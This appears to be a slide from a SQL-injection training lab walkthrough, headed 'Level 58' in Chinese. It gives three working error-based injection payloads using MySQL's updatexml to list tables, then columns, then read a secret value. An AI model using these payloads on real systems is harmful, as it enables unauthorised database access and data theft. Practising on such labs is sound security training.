

# 第五十八关
查表：'and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1)

查列：'and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='9avnx1khkg'),0x7e),1)

查数据：'and updatexml(1,(concat(0x7e,(select secret_5HUW from 9avnx1khkg),0x7e)),1) -- qwe